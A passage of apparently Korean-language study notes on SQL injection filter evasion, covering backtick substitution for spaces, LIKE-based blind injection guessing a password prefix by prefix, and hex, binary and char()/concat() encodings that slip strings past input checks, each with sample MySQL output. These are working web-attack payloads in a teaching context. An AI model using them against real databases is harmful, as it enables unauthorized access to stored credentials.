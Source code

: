     - EX) Backtick을 이용한 우회
    
    ```sql
    mysql> select`username`,(password)from`users`WHERE`username`='admin';
    /*
    +----------+----------------+
    | username | password       |
    +----------+----------------+
    | admin    | admin_password |
    +----------+----------------+
    1 row in set (0.00 sec)
    */
    ```
    
- LIKE를 이용한 Blind SQL injection
    
    ```sql
    AND LIKE upw='p%'
    AND LIKE upw='pw%'
    ..
    AND LIKE upw='pw1234'
    ```
    

### MySQL 우회 기법

- MySQL 진법을 이용한 문자열 검사 우회
    
    ```sql
    mysql> select 0x6162, 0b110000101100010;
    /*
    +--------+-------------------+
    | 0x6162 | 0b110000101100010 |
    +--------+-------------------+
    | ab     | ab                |
    +--------+-------------------+
    1 row in set (0.00 sec)
    */
    ```
    
- 메소드를 이용한 문자열 검사 우회
    
    ```sql
    mysql> select char(0x61, 0x62);
    /*
    +------------------+
    | char(0x61, 0x62) |
    +------------------+
    | ab               |
    +------------------+
    1 row in set (0.00 sec)
    */
    mysql> select concat(char(0x61), char(0x62));
    /*
    +--------------------------------+
    | concat(char(0x61), char(0x62)) |
    +--------------------------------+
    | ab                             |
    +--------------------------------+
    */
    ```
    